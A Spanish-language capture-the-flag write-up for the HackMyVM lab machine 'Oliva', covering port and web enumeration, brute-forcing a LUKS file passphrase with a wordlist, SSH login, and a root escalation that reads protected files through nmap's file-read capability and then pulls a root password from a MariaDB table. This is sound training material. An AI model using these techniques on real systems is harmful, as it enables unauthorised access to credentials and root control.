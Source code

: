 ```yaml
---
layout: post
title: Oliva - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/oliva/oliva.png#center)

## Reconocimiento

Lo primero es realizar una enumeración de los puertos abiertos.

```
$ sudo nmap -p- 192.168.1.108           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-24 10:59 EDT
Nmap scan report for 192.168.1.108
Host is up (0.00016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:73:5D:77 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.43 seconds
```

### 80 (http)

![img](/imgs/write-ups/hackmyvm/oliva/oliva_1.png#center)

Continuo con una busqueda de subdirectorios y ficheros utilizando gobuster.

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html,bak -u http://192.168.1.108
[...]
/index.php            (Status: 200) [Size: 69]
/index.html           (Status: 200) [Size: 615]
```

En index.php podemos descargar un archivo con una supuesta contraseña.

![img](/imgs/write-ups/hackmyvm/oliva/oliva_2.png#center)

Tras descargar el archivo, utilizando la herramienta **file** compruebo que es un archivo encriptado LUKS v2.

```
$ file oliva
oliva: LUKS encrypted file, ver 2, header size 16384, ID 3, algo sha256, salt 0x14fa423af24634e8..., UUID: 9a391896-2dd5-4f2c-84cf-1ba6e4e0577e, crc 0x6118d2d9b595355f..., at 0x1000 {"keyslots":{"0":{"type":"luks2","key_size":64,"af":{"type":"luks1","stripes":4000,"hash":"sha256"},"area":{"type":"raw","offse
```

## Explotación

Utilizando la herramienta [Bruteforce Luks](https://github.com/glv2/bruteforce-luks) realizo un ataque de fuerza bruta para obtener la contraseña de la encriptación.

```
$ sudo bruteforce-luks -t 4 -f /usr/share/wordlists/rockyou.txt oliva
[sudo] password for kali: 
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 970                                        
Tried passwords per second: 1.695804
Last tried password: imissyou

Password found: b*****
```

Una vez obtendia la contraseña puedo abrir el archivo para luego montarlo desde el gestor de archivos.

```
# cryptsetup open --type luks oliva oliva
Enter passphrase for oliva: b*****
```

![img](/imgs/write-ups/hackmyvm/oliva/oliva_3.png#center)

Con la contraseña del archivo **mypass.txt** puedo conectarme como el usuario Oliva mediante ssh.

```
$ ssh oliva@192.168.1.108
[...]
Last login: Tue Jul  4 10:27:00 2023 from 192.168.0.100
oliva@oliva:~$ :)
```

## Escalado de privilegios.

Una vez dentro de la máquina, ejecuto **linpeas.sh**.

```
[...]
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities                                     
Current env capabilities:                                                                                           
Current: =
Current proc capabilities:
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 000001ffffffffff
CapAmb: 0000000000000000

Parent Shell capabilities:
0x0000000000000000=

Files with capabilities (limited to 50):
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
[...]
```

```
[...]
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                       
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                                        
tcp   LISTEN 0      511          0.0.0.0:80        0.0.0.0:*          
tcp   LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
tcp   LISTEN 0      128             [::]:22           [::]:*          
tcp   LISTEN 0      511             [::]:80           [::]:* 
[...]
```

Entre todos los datos que ofrece hay que destacar que **nmap** tiene la siguiente capabilitie "cap_dac_read_search=eip", la cual permite leer archivos. Tambien tener en cuenta que hay una base de datos mysql en el puerto 3306 ejecutandose.

Tras leer diversos ficheros, en **index.php** encuentro usuario y contraseña de la base de datos.
```
oliva@oliva:/tmp$ nmap localhost -iL /var/www/html/index.php
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 17:21 CEST
Failed to resolve "Hi".
Failed to resolve "oliva,".
Failed to resolve "Here".
Failed to resolve "the".
Failed to resolve "pass".
Failed to resolve "to".
Failed to resolve "obtain".
Failed to resolve "root:".
Failed to resolve "<?php".
Failed to resolve "$dbname".
Failed to resolve "=".
Failed to resolve "'easy';".
Failed to resolve "$dbuser".
Failed to resolve "=".
Failed to resolve "'root';".
Failed to resolve "$dbpass".
Failed to resolve "=".
Failed to resolve "'S**********';".
Failed to resolve "$dbhost".
Failed to resolve "=".
Failed to resolve "'localhost';".
Failed to resolve "?>".
Failed to resolve "<a".
Unable to split netmask from target expression: "href="oliva">CLICK!</a>"
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.56 seconds
```

Una vez obtenida la contraseña, me conecto a la base de datos y encuentro el usuario **root** y su contraseña.

```
MariaDB [easy]> select * from logging;
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | O*********** |
+--------+------+--------------+
1 row in set (0,006 sec)
```

Con esto ya puedo iniciar sesión.

```
oliva@oliva:/tmp$ su root
Contraseña: 
root@oliva:/tmp# id
uid=0(root) gid=0(root) grupos=0(root)
root@oliva:/tmp# :)
```

Muchas gracias a **Sml** por esta máquina.
